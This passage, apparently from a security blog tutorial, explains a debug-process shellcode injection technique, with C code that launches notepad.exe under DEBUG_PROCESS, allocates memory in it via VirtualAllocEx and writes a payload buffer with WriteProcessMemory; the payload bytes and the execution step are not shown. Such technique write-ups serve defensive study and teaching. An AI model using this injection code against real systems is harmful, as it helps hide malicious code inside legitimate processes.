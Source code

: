## Process Creation
As discussed earlier, we would start by creating process on the DEBUG_PROCESS mode. The CreateProcess method contains different arguments which has been described already on [one of my blog here](https://nirajkharel.com.np/posts/process-injection-shellcode-queuUserApc/#createprocess). One thing that I want to discuss here is **dwCreationFlags** which is responsible for configuring how the process would be created, on this case, we would be passing **DEBUG_PROCESS** value.

```c
// CreateProcess Variables
STARTUPINFO si;
PROCESS_INFORMATION pi;

ZeroMemory( &si, sizeof(si) );
si.cb = sizeof(si);
ZeroMemory( &pi, sizeof(pi) );

// It could be any application here
LPCWSTR execFile = L"C:\\Windows\\notepad.exe";
   
// CreateProcess in DEBUG State
BOOL bCreateProcess = CreateProcess(execFile, NULL, NULL, NULL, FALSE, DEBUG_PROCESS, NULL, NULL, &si, &pi);

if (bCreateProcess == FALSE) {
    printf("\nError Creating the Process: %d", GetLastError());
    return;
}

printf("Successfully created the process in Debug state\n");
```

### Shellcode Injection
Next step would be to use **[VirtualAlloc](https://nirajkharel.com.np/posts/process-injection-shellcode/#buffer-allocation---virtualallocex)** to allocate the buffer into the virtual address space of the debug process. 
```c
DWORD dwOldProtection = NULL;
HANDLE hProcess = pi.hProcess;
SIZE_T dwSize = sizeof(Payload);
SIZE_T sNumberOfBytesWritten = NULL;

PVOID lpAlloc = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

if (lpAlloc == NULL) {
    printf("\nError Allocating the memory: %d", GetLastError());
    return;
}
printf("Successfully allocated memory at: 0x%p \n",lpAlloc);
```

Once the allocation is done, we need to write the payload into the allocated memory using **[WriteProcessMemory](https://nirajkharel.com.np/posts/process-injection-shellcode/#write-buffer-into-the-allocated-memory---writeprocessmemory)** method.
```c
BOOL bWriteBuffer = WriteProcessMemory(hProcess, lpAlloc, Payload, dwSize, &sNumberOfBytesWritten);

if (bWriteBuffer == FALSE){
  		printf("Failed to Write Memory to the process\n");
  		CloseHandle(hProcess);
  		return;
  	}

printf("Successfully written %d Bytes\n", sNumberOfBytesWritten);
```
